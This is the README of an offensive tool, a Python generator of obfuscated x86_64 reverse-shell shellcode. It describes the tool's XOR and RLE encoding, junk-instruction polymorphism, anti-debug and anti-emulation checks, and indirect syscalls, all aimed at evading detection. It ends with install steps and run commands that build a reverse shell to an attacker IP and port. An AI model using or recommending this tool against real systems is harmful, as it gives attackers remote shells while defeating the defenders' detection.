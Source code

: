 # YAPT: yet another payload tool #

This Python script is a x86_64 reverse shell shellcode generator that builds highly obfuscated payloads using several evasion techniques. Here’s an overview of its main components and functionality:

Key Functionalities
Assembly Code Handling:
The script uses pwntools to assemble custom assembly snippets. A helper function removes comments from assembly strings before assembling them, ensuring clean code generation.

Encryption & Encoding Options:
It offers simple byte-wise XOR encryption and a rolling XOR variant. Additionally, there’s an option to apply Run-Length Encoding (RLE) to the payload. When RLE is enabled, a self-decoding stub is generated to decompress the payload at runtime.

Polymorphic Junk Insertion:
To further obfuscate the payload, the script can prepend random “junk” assembly instructions that have no functional effect but help evade signature-based detections.

Anti-Debug and Anti-Emulation:
Optional code blocks perform anti-debugging checks (using the ptrace system call) and anti-emulation techniques (using timing checks with rdtsc and cpuid instructions).

Reverse Shell Payload:
The core functionality sets up a TCP socket to a given IP and port, redirects standard I/O (stdin, stdout, stderr) using dup2, and then executes a specified executable (default is /bin/sh) via an execve system call.

Additional Obfuscation:
The script includes options for obfuscating the executable path in memory (via XOR) and for using indirect system calls through a “syscall gadget”, which further complicates static analysis.

Workflow Summary
Argument Parsing:
The script uses argparse to accept parameters for the attacker's IP, port, the executable path, and various flags to enable or disable obfuscation features.

Payload Generation:
Based on the provided flags, it builds an assembly payload that includes the reverse shell logic along with optional anti-debug/anti-emulation, stack pivoting, and junk insertion.

Optional Encoding & Encryption:
After generating the core payload, it may be further processed using RLE encoding and/or XOR-based encryption, depending on the user’s choices.

Output:
The final shellcode is printed in a format suitable for embedding in C or Python code.

This script is designed for scenarios where evasion from detection is critical, combining multiple layers of obfuscation and anti-analysis techniques into one payload generation process.

## Installing ##
```
git clone https://github.com/daedalus/yapt/
virtualenv venv
source venv/bin/activate
cd yapt
python setup.py install
```
## Running ##
Basic reverse shell:

`python3 main.py --ip 192.168.1.100 --port 4444`

Obfuscated version with multiple techniques:

`python3 main.py --ip 192.168.1.100 --port 4444 --junk --obfuscate-path --anti-debug --rle --xor-key 0xAA`

## License ##

MIT
